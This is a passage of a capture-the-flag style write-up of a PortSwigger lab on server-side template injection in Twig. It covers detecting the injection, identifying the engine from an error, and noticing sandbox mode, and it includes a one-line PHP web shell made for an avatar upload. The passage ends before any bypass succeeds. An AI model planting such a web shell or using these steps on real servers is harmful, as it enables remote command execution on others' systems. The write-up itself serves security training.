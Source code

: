 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224002806.png)

As you can see, our username changed to a SSTI payload, and `7 * 7` is 49.

**Next, we need to identify which template engine is the web application using.**

**To do so, I'll trigger an error:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224003011.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224003021.png)

In the error output, we can see that **it's using a template engine called Twig, which is written in PHP.**

**In [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig---code-execution), we can try to get code execution:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224003511.png)

**However, none of them are working:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224003746.png)

**Let's go to [Twig offical website](https://twig.symfony.com/):**

**In the home page, we can already see something interesting:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224003911.png)

Hmm... **Sandbox mode**. Looks like we need to do some **sandbox bypass**.

**Now, we have access to the `user` object:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224004725.png)

This will be very helpful for us.

**Let's go back to my account page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224004828.png)

**As you can see, we can upload an avatar image.**

**Let's try to upload a PHP web shell:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Server-Side-Template-Injection]
└─# echo '<?php system($_GET["cmd"]); ?>' > webshell.jpg.php
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224005007.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224005414.png)

Hmm... **This PHP file(`/home/carlos/User.php`)** checks the file MIME type is an image or not.

**Also, it's using an object `user`'s method called `setAvatar()`!**
